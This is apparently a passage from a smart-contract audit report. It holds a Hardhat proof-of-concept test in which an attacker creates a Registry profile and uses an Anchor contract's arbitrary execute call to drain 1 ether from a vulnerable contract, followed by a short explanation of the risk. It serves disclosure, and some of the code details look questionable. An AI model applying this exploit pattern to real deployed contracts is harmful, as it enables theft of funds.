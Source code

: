 > Consequently, for the attacker to exploit this:

```javascript
const { ethers, waffle } = require("hardhat");
const { expect } = require("chai");

describe("Exploit", function () {
  let owner, attacker;
  let registry, anchor, vulnerable;
  let profileId;

  before(async function () {
    [owner, attacker] = await ethers.getSigners();

    // 1. Deploy Registry
    const Registry = await ethers.getContractFactory("Registry");
    registry = await Registry.deploy();
    await registry.deployed();
    await registry.initialize(owner.address);

    // 2. Deploy Anchor using the deployed Registry address
    // Note: Assuming Anchor accepts a registry address as a constructor parameter
    const Anchor = await ethers.getContractFactory("Anchor");
    anchor = await Anchor.deploy(registry.address);

    // 3. Deploy VulnerableContract and deposit some funds
    const VulnerableContract = await ethers.getContractFactory("VulnerableContract");
    vulnerable = await VulnerableContract.deploy();
    await vulnerable.deployed();
    await owner.sendTransaction({ to: vulnerable.address, value: ethers.utils.parseEther("1") });  // Depositing 1 ether
  });

  it("Create profile and become owner", async function () {
    const tx = await registry.createProfile(1, "Attacker", { key: "value" }, attacker.address, []);
    await tx.wait();

    profileId = await registry.getProfileByAnchor(tx.anchor); // tx.anchor is the profileId
    expect(profileId.owner).to.equal(attacker.address);
  });

  it("Exploit VulnerableContract to withdraw funds", async function () {
    const withdrawalAmount = ethers.utils.parseEther("1");  // Attempting to withdraw all funds
    const callData = vulnerable.interface.encodeFunctionData("withdrawFunds", [withdrawalAmount]);

    await anchor.connect(attacker).execute(vulnerable.address, 0, callData);

    expect(await vulnerable.funds()).to.equal(0);  // The funds in the vulnerable contract should now be 0
  });
});
```

This PoC demonstrates how the `execute` function can be an actual risk. By allowing arbitrary calls with the privileges of the `Anchor` contract, it can be eventually abused, leading to loss of funds or alteration of critical state variables in other CAs.
